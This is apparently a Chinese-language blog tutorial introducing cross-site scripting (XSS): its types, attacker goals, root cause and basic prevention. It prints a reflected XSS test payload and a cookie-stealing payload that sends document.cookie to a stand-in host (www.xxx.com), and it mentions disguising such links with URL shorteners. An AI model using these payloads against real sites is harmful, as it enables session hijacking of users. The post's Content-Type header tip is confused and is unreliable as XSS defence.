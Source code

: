 ```yaml
---
title: "XSS攻击介绍"
date: 2016-07-24 18:36:08 +0800
comments: true
toc: true
categories: web
tags: [XSS]
---
```


XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，
故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。

这个是动态站点的威胁，静态站点完全不受其影响。<!--more-->

## XSS分类

***存储型XSS：***

    主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。
    应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。
    这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。

***反射型XSS：***

    将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。


XSS目前主要的手段和目的如下：

* 盗用cookie，获取敏感信息。
* 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
* 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，
或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
* 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
* 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，
并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

以反射性XSS举例说明XSS的过程，现在有一个网站，根据参数输出用户的名称，
例如访问url：`http://127.0.0.1/?name=foobar`，就会在浏览器输出如下信息：

```
hello foobar
```

如果我们传递这样的url：
```
http://127.0.0.1/?name=<script>alert('foobar')</script>
```

这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。

那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：
```
http://127.0.0.1/?name=<script>document.location.href='http://www.xxx.com/cookie?'+document.cookie</script>
```

这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`

你也许会说，这样的URL一看就有问题，怎么会有人点击？是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短
，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，
相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，
然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

## 预防XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

* 过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤。

* 使用HTTP头指定类型

```
header.set("Content-Type","text/javascript")
```

这样就可以让浏览器解析javascript代码，而不会是html输出。

## 总结

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

